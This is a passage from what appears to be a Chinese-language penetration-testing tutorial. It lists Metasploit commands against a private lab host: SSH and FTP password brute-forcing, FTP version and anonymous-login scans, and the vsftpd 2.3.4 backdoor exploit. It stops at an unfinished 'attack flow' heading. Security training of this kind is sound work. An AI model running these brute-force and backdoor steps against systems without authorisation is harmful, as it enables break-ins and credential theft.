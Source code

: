     ```shell
    use  auxiliary/scanner/ssh/ssh_login  # 使用攻击模块
        set rhosts 192.168.18.137  # 设置目标参数
        set  USERPASS_FILE  /home/jlb/root_userpass.txt  # 设置密码文件
        set VERBOSE  true # 显示破解过程
        run # 执行
        seesions  # 显示会话
        sessions -i 1 # 使用指定会话
    ```

### 4. 基于 FTP 协议进行信息收集

```shell
use auxiliary/scanner/ftp/ftp_version # 使用指定模块 查看 FTP 版本
	set rhosts 192.168.18.137  # 设置参数
	run  # 执行
use  exploit/unix/ftp/vsftpd_234_backdoor  # 使用指定版本的模块
	set rhosts 192.168.18.137  # 设置参数
	run # 执行
```

FTP 匿名登陆：

```shell
use auxiliary/scanner/ftp/anonymous   # 使用指定模块
	set rhosts 192.168.18.137  # 设置参数
	run # 执行
	# 执行成功后。使用 FTP 软件进行连接
```

FTP 暴力破解：

```shell
use auxiliary/scanner/ftp/ftp_login  # 设置指定模块
	set rhosts 192.168.18.137  # 设置参数
	set  USERPASS_FILE  /home/jlb/root_userpass.txt  # 设置密码文件
	run # 执行
```

## 七、实战

攻击流程：
